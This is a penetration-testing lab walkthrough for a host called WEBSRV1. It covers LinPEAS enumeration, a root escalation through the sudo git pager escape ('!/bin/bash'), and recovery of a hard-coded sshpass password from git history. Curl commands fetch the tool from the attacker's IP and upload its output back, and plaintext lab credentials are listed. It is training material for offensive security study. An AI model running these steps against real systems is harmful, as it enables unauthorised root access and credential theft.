



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Privilege Escalation On Initial Host

Now that the attacker has obtained access to a host (`WEBSRV1`) they will want to pivot through it to whatever is on the internal network behind it. The first step will be to enumerate the machine the attacker has gained access to. From there, if possible, it would be helpful to elevate to `root`, and then potentially pivot.

## Enumerating the Host

In the interest of speed, enumeration will be automated using [LinPEAS](../linux/privilege-escalation/enumeration/automated-enumeration.md#linpeas). The easiest version to use will be `linpeas.sh`. It can be downloaded from [here](https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh) (though because the lab machines generally do not have internet access it may need to be downloaded to the attacker's machine and then hosted via HTTP for copying). Once it is downloaded, execute permissions must be added and then it can be run (saving the output in a text file which will be uploaded to the attacker's machine):

```shell-session
daniela@websrv1:~$ curl http://192.168.45.243/tmp/linpeas.sh -o ./linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  840k  100  840k    0     0  1941k      0 --:--:-- --:--:-- --:--:-- 1940k
daniela@websrv1:~$ chmod +x ./linpeas.sh
daniela@websrv1:~$ ./linpeas.sh -a > lp_a.txt
...
daniela@websrv1:~$ curl -F "file=@lp_a.txt" http://192.168.45.243/upload/upload.php
File 'lp_a' uploaded successfully
```

### Examining the Output

The output will be transformed to HTML as shown here:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~/beyond/websrv1$ python3 peas2json.py lp_a.txt linPEAS_daniela.json
</strong>
kali@kali:~/beyond/websrv1$ python3 json2html.py linPEAS_daniela.json linPEAS_daniela.html

kali@kali:~/beyond/websrv1$ firefox linPEAS_daniela.html
</code></pre>

Now that the output is transformed the attacker can begin making their way through it. Some of the interesting sections will be called out here.

#### Operating System

`System Information > Operative System` reveals that the machine is indeed running Ubuntu 22.04 LTS as suspected [earlier](public-network-enumeration.md#looking-for-software-vulnerabilities):

<figure><figcaption><p>Operating System Information</p></figcaption></figure>

#### Network Interfaces

`Processes, Crons, ... Sockets > Network Information > Interfaces` reveals some unfortunate information. There is _only one network listed apart from the loopback interface_. This means the machine is in fact **not connected to the internal network** and thus **cannot be a pivot** directly into the network. That said, perhaps there is still valuable information so it's too early to give up on this machine:

<figure><figcaption><p>Interfaces boxed for easier distinguishing</p></figcaption></figure>

#### Special Permissions

In `Users Information > Checking 'sudo -l' ...` the attack will discover that all users are allowed to run the `git` command with elevated permissions (`sudo`) without a password:

<figure><figcaption><p>All users allowed to run git</p></figcaption></figure>

#### WordPress Files

The tool also finds some WordPress files. The attacker already knew the site was WordPress so this section was an obvious one to check. The section appears under `Software Information > Installed Compilers > Analyzing Wordpress Files`:

<figure><figcaption><p>Config path and password left on machine</p></figcaption></figure>

It appears they got lucky. Besides the path to the config file there is also a credential that was left on the machine. The `wordpress:DanielKeyboard3311` credentials should be retained in the `beyond/creds.txt` file.

#### GitHub Files

In the same area there is an `Analyzing Github Files` section that indicates the WordPress site is saved to GitHub:

<figure><figcaption><p>Confirming the WordPress site is backed up to GitHub</p></figcaption></figure>

## Elevating Privileges

Based on the information discovered above one can define three potential privilege escalation vectors:

1. Abuse `sudo` command `/usr/bin/git` ([source](privilege-escalation-on-initial-host.md#special-permissions))
2. Use `sudo` to search the Git repository ([source](privilege-escalation-on-initial-host.md#special-permissions))
3. Attempt to access other users with the WordPress database password ([source](privilege-escalation-on-initial-host.md#wordpress-files))

Of these, the first seems the most promising

### Abusing `sudo` and `git`

When elevated privileges are found for a particular command the best place to start is [GTFOBins](https://gtfobins.github.io/) as demonstrated in [this example](../linux/privilege-escalation/insecure-system-components/abusing-sudo-binaries.md#abusing-apt-get). In this case the command to search is `git` which does turn [something](https://gtfobins.github.io/gtfobins/git/#sudo) up:

<figure><figcaption><p>GTFOBins git page</p></figcaption></figure>

The first technique is unfortunately unsuccessful:

```shell-session
daniela@websrv1:~$ sudo PAGER='sh -c "exec sh 0<&1"' git -p help
sudo: sorry, you are not allowed to set the following environment variables: PAGER
```

No worries, moving on to the second vector. The first step is to invoke the default git [pager](https://medium.com/pragmatic-programmers/git-config-core-pager-807e17d64243) per GTFOBins:

```bash
sudo git -p help config
```

After the command is run a help window is opened and at the bottom the attacker is able to type. The attacker can then invoke an interactive shell:

```sh
!/bin/sh
```

* `!/bin/sh` can be replaced with any installed and accessible shell such as `!/bin/bash`

The attacker can use this to attempt to launch `bash`. In this they find more success:

```shell-session
daniela@websrv1:~$ sudo git -p help config
GIT-CONFIG(1)                                       Git Manual                                      GIT-CONFIG(1)

NAME
       git-config - Get and set repository or global options
...
•   the config file cannot be written (ret=4),

       •   you try to unset an option which does not exist (ret=5),

!/bin/bash
root@websrv1:/home/daniela# whoami
root
root@websrv1:/home/daniela# hostname
websrv1
root@websrv1:/home/daniela# 
```

Now the attacker has an elevated shell and continue enumeration.

## Enumerating As root

Enumeration of the machine should restart now that the attacker has elevated permissions. There are often secrets visible to the `root` user and more of the machine is visible than when acting as a user. Much of this second enumeration will be skipped in the interest of brevity in this example but all of the steps conducted for enumeration should probably be repeated now that the attacker is `root`. The **attacker should definitely run linPEAS again** as it will have much broader access as `root` than it did as `daniela`.

The things being searched for are different now though. The _attacker no longer cares about potential privilege escalation vectors_ as they are already root. Instead _they are looking for things like passwords or other secrets that could potentially be used to access a different machine_ and maybe the internal network.

### Examining the Git Repository

Recall that there is a Git repository containing the WordPress site at `/srv/www/wordpress` on the machine. The attacker should move to that directory and begin enumeration. In this example this must be done from an elevated prompt as the .git file is only readable by root:

```shell-session
root@websrv1:/srv/www/wordpress# ls -la
total 236
drwxr-xr-x  7 www-data www-data  4096 Oct  4  2022 .
drwxr-xr-x  3 www-data www-data  4096 Sep 27  2022 ..
drwxr-----  8 root     root      4096 Apr 14 18:40 .git
-rw-r--r--  1 www-data www-data   523 Sep 27  2022 .htaccess
-rw-r--r--  1 www-data www-data   405 Feb  6  2020 index.php
...
```

#### Status

The `status` command will tell the attacker if there are any changes staged or if this is the current committed version:

```bash
git status
```

When run on the machine the attacker finds no changes:

```shell-session
root@websrv1:/home/daniela# cd /srv/www/wordpress/

root@websrv1:/srv/www/wordpress# git status
HEAD detached at 612ff57
nothing to commit, working tree clean
```

#### Logs

One can use the `log` command to show the commit history:

```bash
git log
```

When run the attacker finds a history of two commits:

```shell-session
root@websrv1:/srv/www/wordpress# git log
commit 612ff5783cc5dbd1e0e008523dba83374a84aaf1 (HEAD, master)
Author: root <root@websrv1>
Date:   Tue Sep 27 14:26:15 2022 +0000

    Removed staging script and internal network access

commit f82147bb0877fa6b5d8e80cf33da7b8f757d11dd
Author: root <root@websrv1>
Date:   Tue Sep 27 14:24:28 2022 +0000

    initial commit
```

#### Examining a Commit

The message on the second commit is also quite interesting. "Removed staging script and ..." implies that the initial version might have had some secrets included for expediency during development and testing. The attacker could go back to a specific version with the command:

```bash
git checkout $commit_id
```

* `$commit_id` is replaced by or set to the ID that is shown after commit in the output.
  * E.g. `f82147bb0877fa6b5d8e80cf33da7b8f757d11dd` for the initial commit

This is probably not the best option though. It would likely be noticed and could break functionality on the public-facing server which would definitely be noticed. Instead the attacker can use the [`show`](https://git-scm.com/docs/git-show) command which for commits shows the log message and textual diff:

```bash
git show $commit_id
```

* As above, `$`commit\_id is set to or replaced by the commit's ID

In the attacker's case it will be run on the most recent commit since the things changed between the first and current version is the removal of the interesting secrets:

```shell-session
root@websrv1:/srv/www/wordpress# git show 612ff5783cc5dbd1e0e008523dba83374a84aaf1
commit 612ff5783cc5dbd1e0e008523dba83374a84aaf1 (HEAD, master)
Author: root <root@websrv1>
Date:   Tue Sep 27 14:26:15 2022 +0000

    Removed staging script and internal network access

diff --git a/fetch_current.sh b/fetch_current.sh
deleted file mode 100644
index 25667c7..0000000
--- a/fetch_current.sh
+++ /dev/null
@@ -1,6 +0,0 @@
-#!/bin/bash
-
-# Script to obtain the current state of the web app from the staging server
-
-sshpass -p "dqsTwTpZPn#nL" rsync john@192.168.50.245:/current_webapp/ /srv/www/wordpress/
```

The last line is the most important here. It is showing the removal of an [`sshpass`](https://www.redhat.com/sysadmin/ssh-automation-sshpass) command. `sshpass` is commonly used to provide a password in an non-interactive way for scripts. In this case `john` hard-coded his password which will now be added to the `creds.txt` file which as it currently stands has three entries:


```
id_rsa.daniela:tequieromucho    (SSH key password)
wordpress:DanielKeyboard3311    (Wordpress DB connections settings)
john:dqsTwTpZPn#nL              (found in fetch_current.sh via git show)
```


## Summary

In this section the attacker thoroughly enumerated `WEBSRV1` both as `daniela` and `root`. In doing so they found:

* `WEBSRV1` is not suitable as a pivot into the internal network because it appears to be only externally connected
* Privilege escalation technique leveraging `sudo git` allowing enumeration as `root` user
* 2 sets of credentials

Unfortunately at  this point the well of `WEBSRV1` is probably dry. Hopefully what was found here can be useful in attacking the other publicly facing machine `MAILSRV1`.
